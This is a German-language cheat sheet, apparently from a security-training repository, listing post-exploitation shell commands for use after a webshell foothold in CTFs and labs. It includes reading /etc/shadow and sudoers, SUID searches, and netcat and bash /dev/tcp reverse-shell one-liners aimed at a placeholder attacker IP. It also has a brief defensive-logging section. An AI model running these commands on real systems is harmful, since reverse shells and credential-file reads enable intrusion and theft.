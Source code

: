 # 🧪 cmdExamplesFromShell.md

---

## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Informationsgewinnung](#informationsgewinnung)
- [Dateisystem & Verzeichnisse](#dateisystem--verzeichnisse)
- [Netzwerk-Analyse](#netzwerk-analyse)
- [Systemdienste & Prozesse](#systemdienste--prozesse)
- [Privilege Escalation vorbereiten](#privilege-escalation-vorbereiten)
- [Kommunikation (Reverse Shells)](#kommunikation-reverse-shells)
- [Dateisystem manipulieren](#dateisystem--verzeichnisse)
- [Befehle debuggen (z. B. bei PHP-Webshell)](#befehle-debuggen-beispiel-in-php-webshell)
- [Empfehlung für defensives Logging (Blue Team)](#empfehlung-für-defensives-logging-blue-team)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)

---

## Einleitung

Diese Datei enthält nützliche Shell-Befehle, die häufig **nach erfolgreichem Zugriff über eine Webshell** verwendet werden – z. B. durch eine PHP Remote Code Execution (RCE), Datei-Upload oder Command Injection.  
Sie eignet sich hervorragend für **CTFs**, **Penetration Testing Labs** oder als Nachschlagewerk für den **Post-Exploitation-Prozess**.

> ⚠️ **Hinweis:**  
> Die Befehle dienen ausschließlich **Schulungszwecken** oder autorisierten Tests in isolierten, legalen Umgebungen.  
> Jeder unautorisierte Zugriff auf Drittsysteme ist illegal und strafbar.

---

## Informationsgewinnung

```bash
whoami                  # Aktueller Benutzer
id                      # UID, GID, Gruppen
pwd                     # Aktuelles Verzeichnis
hostname                # Hostname des Systems
uname -a                # Vollständige Systeminformationen
uname -r                # Kernel-Version
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Dateisystem & Verzeichnisse

```bash
ls -la                  # Aktuellen Verzeichnisinhalt anzeigen
ls -la /root            # Root-Verzeichnis anzeigen (falls zugänglich)
ls -la /home            # Benutzerverzeichnisse anzeigen
ls -la /var/www         # Webserver-Verzeichnis
cat /etc/passwd         # Benutzerliste
cat /etc/shadow         # Passworthashes (nur root)
cat /etc/group          # Gruppeninformationen
cat /etc/sudoers        # Sudo-Rechte überprüfen
```

---

## Netzwerk-Analyse
```bash
ifconfig                # Netzwerkinterfaces (älter)
ip a                    # Netzwerkinterfaces (neuer)
netstat -an             # Offene Ports
netstat -tulpn          # Dienste mit Ports und PIDs
```

---

## Systemdienste & Prozesse
```bash
ps aux                  # Laufende Prozesse anzeigen
top                     # Prozesse live
who -a                  # Aktive Benutzer
w                       # Aktive Sessions
```

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Privilege Escalation vorbereiten
```bash
find / -type f -perm -4000 2>/dev/null   # SUID-Dateien finden
sudo -l                                 # Welche Befehle kann ich als root ausführen?
which nc                                # Netcat vorhanden?
which python                            # Python vorhanden?
which perl                              # Perl vorhanden?
```

---

## Kommunikation (Reverse Shells)
### Netcat Reverse Shell (Linux)
```bash
nc <attacker-ip> 4444 -e /bin/bash
```

### Bash Reverse Shell
```bash
bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
```
> ⚠️ Hörer vorbereiten mit:
```bash 
nc -lvnp 4444
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Dateisystem manipulieren

```bash
touch test.txt                # Leere Datei anlegen
echo "test" > test.txt        # Text in Datei schreiben
cat test.txt                  # Datei anzeigen
rm test.txt                   # Datei löschen
```

---

## Befehle debuggen (Beispiel in PHP-Webshell)
Wenn ein Befehl nicht direkt ausgeführt wird (z. B. bei exec()), kann es helfen, einfache Varianten zu testen:

```bash
whoami;id;uname -a
```

**Oder:**

```bash
echo START && whoami && echo END
```

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Empfehlung für defensives Logging (Blue Team)

```bash
last                       # Letzte Logins
dmesg                      # Kernel-Logs
journalctl -xe             # Systemd-Logs (sofern aktiv)
tail -f /var/log/auth.log  # SSH/Authentifizierungsversuche
```

---

## Siehe auch:

- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_web_shell_bypass_tricks.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_web_shell_bypass_tricks.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/04-os-enumeration/post_exploitation_tools.md](https://github.com/bitRaybytes/cybersecurity/blob/main/04-os-enumeration/post_exploitation_tools.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_web_whell_usage.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_web_whell_usage.md)

---

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
